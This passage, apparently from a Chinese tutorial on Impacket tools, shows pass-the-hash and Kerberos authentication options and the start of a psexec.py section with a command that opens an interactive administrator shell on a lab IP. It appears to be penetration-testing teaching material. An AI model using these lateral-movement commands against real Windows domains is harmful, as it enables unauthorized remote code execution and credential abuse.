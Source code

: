 ### hash认证

```plain
py -3 xxx.py domain/user@ip -hashes :161cff084477fe596a5db81874498a24
```

### Kerberos认证

```plain
export KRB5CCNAME=ad01.ccache 
py -3 xxx.py -k -no-pass
```

### 指定目标IP

```plain
-target-ip 192.168.40.156
```

[![](assets/1702372846-031c7644638bf22414042ca27609079f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124122856-82299bf8-6bb0-1.png)

### 指定域控IP

```plain
-dc-ip 192.168.40.156
```

## 远程执行

### psexec.py

可使用密码认证、hash认证、kerberos认证。

#### 常用命令

**交互式Shell**

```plain
py -3 psexec.py test/administrator:1qaz@WSX@192.168.40.156
```

**执行单命令**
